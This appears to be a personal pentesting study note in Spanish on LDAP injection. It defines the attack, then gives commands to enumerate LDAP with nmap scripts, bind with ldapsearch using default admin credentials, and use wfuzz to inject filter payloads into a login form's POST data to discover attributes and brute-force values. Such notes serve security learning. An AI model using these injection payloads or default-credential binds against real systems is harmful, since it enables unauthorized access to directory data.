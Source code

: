 #LDAPi #OWASP #Explotacion 

#### Definición
>Las inyecciones **LDAP** (**Protocolo de Directorio Ligero**) son un tipo de ataque en el que se aprovechan las vulnerabilidades en las aplicaciones web que interactúan con un servidor LDAP. El servidor LDAP es un directorio que se utiliza para almacenar información de usuarios y recursos en una red.
>
  La inyección LDAP funciona mediante la inserción de comandos LDAP maliciosos en los campos de entrada de una aplicación web, que luego son enviados al servidor LDAP para su procesamiento. Si la aplicación web no está diseñada adecuadamente para manejar la entrada del usuario, un atacante puede aprovechar esta debilidad para realizar operaciones no autorizadas en el servidor LDAP.

Para enumerarlo lo podemos hacer los los scripts que trae [[NMAP]]
`nmap -p- --script ldap\* <IP_Objetivo>  `

Nos dará información sobre el servicio aportándonos el `dc`, *LDAP* tiene un usuario llamado `admin` por defecto para poder sacar información sobre el usuario podemos usar la herramienta de [[LDAPSEARCH]]
`ldapsearch -x -H ldap://<IP_Victima> -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=admin'`

Para hacer fuerza bruta para la enumeración de usuarios, primero habría que hacer un descubrimiento de atributos.
Para eso usaremos [[WFUZZ]]

`wfuzz -c -w /home/jalag/Workzone/Herramientas/Wordlists/Seclist/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ))%00&password=*&login=1&submit=Submit' http://<IP_Victima>` 
###### Desde la parte de 'user_id ....' Es el dato enviado por POST en BurpSuite

Una vez obtenido por ejemplo el atributo de `telefoneNumber` podemos descubrir cual es el valor que se aloja en el, podemos seguir usando [[WFUZZ]]
`wfuzz -c --hh=439 -z range,0-9 -d 'user_id=jalag)(telephoneNumber=FUZZ*))%00&password=*&login=1&submit=Submit' http://<IP_Victima>`

